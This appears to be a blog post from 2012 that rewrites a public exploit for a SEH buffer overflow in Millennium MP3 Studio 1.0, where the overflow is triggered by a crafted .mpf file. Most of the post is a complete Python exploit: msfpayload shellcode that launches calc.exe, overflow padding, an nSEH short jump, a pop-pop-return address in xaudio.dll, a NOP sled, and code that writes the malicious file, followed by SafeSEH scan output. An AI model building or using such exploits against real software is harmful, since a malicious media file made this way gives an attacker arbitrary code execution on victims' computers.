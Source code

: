 Millennium MP3 Studio .mpf File Parsing SEH Overflow
====================================================
date: 02/Sep/2012
summary: Millenium MP3 Studio SEH overflow via a pop-pop-return overwrite.
tags: exploit, buffer overflow

The Millennium MP3 Studio version 1.0 is prone to a SEH overflow
vulnerability. Processing specially-crafted `.mpf` files could trigger a
SEH overwrite that could be leveraged further to gain arbitrary code
execution. The exploit for this vulnerability has been documented at
[EDB: 9298](http://www.exploit-db.com/exploits/9298/)

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb9298.mpf"

# msfpayload windows/exec CMD=calc.exe EXITFUNC=seh R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 227 (iteration=1)

calc = ("\xbb\x34\x46\x73\x3a\xda\xd2\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x12\x83\xea\xfc\x03\x6e\x48\x91\xcf\x72" +
"\xbc\xdc\x30\x8a\x3d\xbf\xb9\x6f\x0c\xed\xde\xe4\x3d\x21" +
"\x94\xa8\xcd\xca\xf8\x58\x45\xbe\xd4\x6f\xee\x75\x03\x5e" +
"\xef\xbb\x8b\x0c\x33\xdd\x77\x4e\x60\x3d\x49\x81\x75\x3c" +
"\x8e\xff\x76\x6c\x47\x74\x24\x81\xec\xc8\xf5\xa0\x22\x47" +
"\x45\xdb\x47\x97\x32\x51\x49\xc7\xeb\xee\x01\xff\x80\xa9" +
"\xb1\xfe\x45\xaa\x8e\x49\xe1\x19\x64\x48\x23\x50\x85\x7b" +
"\x0b\x3f\xb8\xb4\x86\x41\xfc\x72\x79\x34\xf6\x81\x04\x4f" +
"\xcd\xf8\xd2\xda\xd0\x5a\x90\x7d\x31\x5b\x75\x1b\xb2\x57" +
"\x32\x6f\x9c\x7b\xc5\xbc\x96\x87\x4e\x43\x79\x0e\x14\x60" +
"\x5d\x4b\xce\x09\xc4\x31\xa1\x36\x16\x9d\x1e\x93\x5c\x0f" +
"\x4a\xa5\x3e\x45\x8d\x27\x45\x20\x8d\x37\x46\x02\xe6\x06" +
"\xcd\xcd\x71\x97\x04\xaa\x80\x66\x95\x26\x14\xd1\x4c\x0b" +
"\x78\xe2\xba\x4f\x85\x61\x4f\x2f\x72\x79\x3a\x2a\x3e\x3d" +
"\xd6\x46\x2f\xa8\xd8\xf5\x50\xf9\xba\x98\xc2\x61\x13\x3f" +
"\x63\x03\x6b")

# 50B jump to avoid CSEH and a 4B hole @ 0012F930
# jumps directly from nseh to nop sled > shellcode
junk = "A"*4112
nseh = pack ('<I', 0x909032EB)# short jump 50B
cseh = pack ('<I', 0x1001FFC7)# p/p/r 1001FFC7 xaudio.dll
nops = "\x90"*80

'''
# 8B jump to avoid CSEH and land in the first NOP sled of 12B
# another 8B jump from there to avoid a 4B hole @ 0012F930 and land in the final NOP sled > shellcode
junk = "A"*4112
nseh = pack ('<I', 0x909008EB)# short jump 8B
cseh = pack ('<I', 0x1001FFC7)# p/p/r 1001FFC7 xaudio.dll
nops = "\x90"*12
jump = pack ('<I', 0x909008EB)# short jump 8B
nops2 = "\x90"*40
'''

sploit = junk+nseh+cseh+nops+calc

try:
handle = open (file, 'w')
handle.write (sploit)
handle.close ()
print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
print "[-] exception!"

'''
/SafeSEH Module Scanner, item 30
 SEH mode=/SafeSEH OFF
 Base=0x10000000
 Limit=0x10044000
 Module version=3, 0, 7, 0
 Module Name=xaudio.dll
'''
```
